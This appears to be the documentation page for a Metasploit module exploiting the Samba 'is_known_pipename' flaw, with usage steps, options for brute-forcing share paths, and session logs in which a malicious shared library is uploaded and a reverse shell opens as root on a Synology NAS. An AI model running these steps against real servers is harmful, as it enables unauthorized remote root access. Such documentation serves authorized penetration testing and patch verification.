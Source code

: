## Vulnerable Application

This module exploits Samba from versions 3.5.0-4.4.14, 4.5.10, and 4.6.4 by loading a malicious shared library.
Samba's download archives are [here](https://download.samba.org/pub/samba/stable/).  There are some requirements
for this exploit to be successful:

1. Valid credentials
2. Writeable folder in an accessible share
3. Server-side path of the writeable folder

However, in some cases anonymous access with common filesystem locations can be used to automate exploitation.

Verified on:

1. Synology DS412+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
2. Synology DS412+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
3. Ubuntu 16.04 (**HDM PLEASE PUT THE Samba version here**)
4. Synology **HDM PLEASE PUT THE DSM VERSION HERE** (**HDM PLEASE PUT THE Samba version here**)
5. Synology DS1512+ **OJ PLEASE PUT THE DSM VERSION HERE** (**OJ PLEASE PUT THE Samba version here**)

Currently not working against:

1. QNAP Nas Samba 4.4.9 on armv71
2. WD NAS armv71 **@wwebb-r7 PLEASE PUT Samba VERSION HERE**

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/linux/samba/is_known_pipename```
3. Do: ```set rhost [ip]```
4. Do: ```set target [target #]```
5. Do: ```exploit```

## Options

  **SMB_SHARE_NAME**
  
  The name of the SMB share containing a writeable directory.  Shares are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

  **SMB_SHARE_BASE**
  
  The remote filesystem path correlating with the SMB share name.  This value is preferred, but other values are
  brute forced including:

1. /volume1
2. /volume2
3. /volume3
4. /shared
5. /mnt
6. /mnt/usb
7. /media
8. /mnt/media
9. /var/samba
10. /tmp/home/home/shared

  **SMB_FOLDER**
  
  The directory to use within the writeable SMB share.  Writable directories are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

## Scenarios

### Synology DS412+ w/ INTEL Atom D2700 on DSM 6.1.1-15101 Update 2

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 1.2.3.117:4444 
[*] 1.2.3.119:445 - Using location \\1.2.3.119\ESX\ for the path
[*] 1.2.3.119:445 - Payload is stored in //1.2.3.119/ESX/ as eePUbtdw.so
[*] 1.2.3.119:445 - Trying location /volume1/eePUbtdw.so...
[-] 1.2.3.119:445 - Probe: /volume1/eePUbtdw.so: The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
[*] 1.2.3.119:445 - Trying location /volume1/ESX/eePUbtdw.so...
[*] Command shell session 1 opened (1.2.3.117:4444 -> 1.2.3.119:34366) at 2017-05-24 21:12:07 -0400

id
uid=0(root) gid=0(root) groups=0(root),100(users)
uname -a
Linux synologyNAS 3.10.102 #15101 SMP Fri May 5 12:01:38 CST 2017 x86_64 GNU/Linux synology_cedarview_412+
```

### Ubuntu 16.04

```
msf exploit(is_known_pipename) > exploit 

[*] Started reverse TCP handler on 192.168.0.3:4444 
[*] 192.168.0.3:445 - Using location \\192.168.0.3\yarp\h for the path
[*] 192.168.0.3:445 - Payload is stored in //192.168.0.3/yarp/h as GTithXJz.so
[*] 192.168.0.3:445 - Trying location /tmp/yarp/h/GTithXJz.so...
[*] Command shell session 6 opened (192.168.0.3:4444 -> 192.168.0.3:45076) at 2017-05-24 19:41:40 -0500

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```
